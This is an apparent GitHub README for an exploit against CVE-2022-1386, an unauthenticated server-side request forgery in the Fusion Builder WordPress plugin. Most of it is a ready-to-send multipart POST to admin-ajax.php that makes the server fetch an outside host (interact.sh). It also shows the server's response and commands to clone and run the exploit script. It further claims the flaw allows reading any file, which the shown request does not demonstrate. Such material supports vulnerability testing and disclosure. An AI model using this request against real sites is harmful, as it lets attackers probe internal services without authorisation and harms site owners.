

# CVE-2022-1386 - Fusion Builder < 3.6.2 - Unauthenticated SSRF



## Description

Fusion Builder is a WordPress plugin that allows users to create and edit pages using a drag-and-drop interface. It is vulnerable to an unauthenticated SSRF that allows an attacker to read any file on the server.

## Proof of Concept
Request:
```http request
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Accept-Language: en-US,en;q=0.5
X-Requested-With: XMLHttpRequest
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Content-Type: multipart/form-data; boundary=734fc2bb05c3cc70e9fce6e1957ee204
Content-Length: 1172

--734fc2bb05c3cc70e9fce6e1957ee204
Content-Disposition: form-data; name="formData"

email=example%40example.com&fusion_privacy_store_ip_ua=false&fusion_privacy_expiration_interval=48&privacy_expiration_action=ignore&fusion-form-nonce-0=9ae1cc329c&fusion-fields-hold-private-data=
--734fc2bb05c3cc70e9fce6e1957ee204
Content-Disposition: form-data; name="action"

fusion_form_submit_form_to_url
--734fc2bb05c3cc70e9fce6e1957ee204
Content-Disposition: form-data; name="fusion_form_nonce"

9ae1cc329c
--734fc2bb05c3cc70e9fce6e1957ee204
Content-Disposition: form-data; name="form_id"

0
--734fc2bb05c3cc70e9fce6e1957ee204
Content-Disposition: form-data; name="post_id"

0
--734fc2bb05c3cc70e9fce6e1957ee204
Content-Disposition: form-data; name="field_labels"

{"email":"Email address"}
--734fc2bb05c3cc70e9fce6e1957ee204
Content-Disposition: form-data; name="hidden_field_names"

[]
--734fc2bb05c3cc70e9fce6e1957ee204
Content-Disposition: form-data; name="fusionAction"

http://interact.sh/
--734fc2bb05c3cc70e9fce6e1957ee204
Content-Disposition: form-data; name="fusionActionMethod"

GET
--734fc2bb05c3cc70e9fce6e1957ee204--
 
```
Response:
```http request
HTTP/1.1 200 OK
Date: Mon, 25 Oct 2021 15:59:00 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.3
Content-Type: text/html; charset=UTF-8
Vary: Accept-Encoding

{"status":"success", "info":"<h1> Interactsh Server <\/h1>"}
```

## Usage

```bash
git clone https://github.com/ardzz/CVE-2022-1386
cd CVE-2022-1386
pip install -r requirements.txt
python3 cve-2022-1386.py
```

## References
- https://wpscan.com/vulnerability/bf7034ab-24c4-461f-a709-3f73988b536b
- https://sploitus.com/exploit?id=WPEX-ID:BF7034AB-24C4-461F-A709-3F73988B536B